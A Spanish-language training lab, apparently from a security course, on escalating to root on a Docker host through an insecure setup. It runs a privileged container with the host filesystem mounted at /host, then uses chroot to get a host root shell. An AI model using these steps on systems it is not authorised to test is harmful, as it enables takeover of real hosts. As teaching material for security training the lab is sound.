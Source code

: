 # Laboratorio 3: Elevación de privilegios

El objetivo del siguiente laboratorio es explotar una configuración insegura de Docker para escalar privilegios y obtener acceso root en el host de Docker.

### Requisitos previos
- Una instancia Ubuntu con Docker instalado.
- Socket daemond expuesto sin TLS
- Docker CLI configurado en la máquina local apuntando al host de Docker.
- Un usuario con permisos para ejecutar contenedores en Docker.

**Paso 1** Ejecuta el siguiente comando en tu máquina local para desplegar un contenedor inseguro:

        docker run -d --rm --name vulnerable-container \
        --privileged \
        -v /:/host \
        ubuntu:latest sleep infinity

**Paso 2** Explota la vulnerabilidad

        docker exec -it vulnerable-container /bin/bash

**Paso 3** Dentro del contenedor, accede al sistema de archivos del host:

        cd /host
        ls -la

Deberías ver el sistema de archivos completo del host. Ahora, cambia al usuario root del host ejecutando:

        chroot /host /bin/bash

Esto te dará una shell con permisos de root en la instancia. Confírmalo ejecutando:

        whoami

